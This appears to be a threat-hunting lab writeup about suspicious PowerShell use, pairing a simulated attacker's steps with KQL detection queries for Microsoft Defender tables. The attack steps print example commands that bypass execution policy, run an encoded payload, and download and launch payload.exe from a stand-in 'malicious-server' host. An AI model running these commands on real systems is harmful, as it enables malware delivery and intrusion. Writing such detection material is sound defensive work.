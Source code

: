 # Threat Event (Suspicious PowerShell Usage)
**Suspicious PowerShell Script Execution**

## Steps the "Bad Actor" Took Create Logs and IoCs:
1. Launch PowerShell in a suspicious manner (e.g., via `cmd.exe`, or another indirect method).
2. Execute encoded commands using `-encodedCommand` or download malicious scripts from external sources.
   - Example command: `powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand <Base64EncodedPayload>`
3. Download malicious payload from a remote server using `Invoke-WebRequest` or `Invoke-Expression`.
   - Example command: `Invoke-WebRequest -Uri http://malicious-server/payload.exe -OutFile "payload.exe"`
4. Execute the downloaded payload.
   - Example: `Start-Process -FilePath "payload.exe"`
5. Delete any traces of the activity, including removing the downloaded payload.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose**| Used to detect execution of suspicious PowerShell commands (e.g., `powershell.exe -encodedCommand`). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table |
| **Purpose**| Used to detect suspicious network activity, including communication with external servers that may host malicious payloads. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents                                                              |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose**| Used to detect file activity, such as the creation and deletion of files associated with the attack (e.g., payload.exe). |

---

## Related Queries:
```kql
// PowerShell execution with encoded command
DeviceProcessEvents
| where FileName == "powershell.exe" and ProcessCommandLine contains "-encodedCommand"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// PowerShell executed using indirect methods (e.g., cmd.exe or wininit.exe)
DeviceProcessEvents
| where FileName in~ ("cmd.exe", "wininit.exe") and ProcessCommandLine contains "powershell"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// Suspicious network activity (downloading payload)
DeviceNetworkEvents
| where InitiatingProcessFileName == "powershell.exe" and RemoteUrl contains "malicious-server"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, RemotePort

// Detect payload download attempt using Invoke-WebRequest
DeviceProcessEvents
| where ProcessCommandLine contains "Invoke-WebRequest" and ProcessCommandLine contains "payload.exe"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Deletion of suspicious files (e.g., payload.exe)
DeviceFileEvents
| where FileName == "payload.exe" and ActionType == "Deleted"
| project Timestamp, DeviceName, FileName, ActionType
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47/
- **Date**: January 24, 2024

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

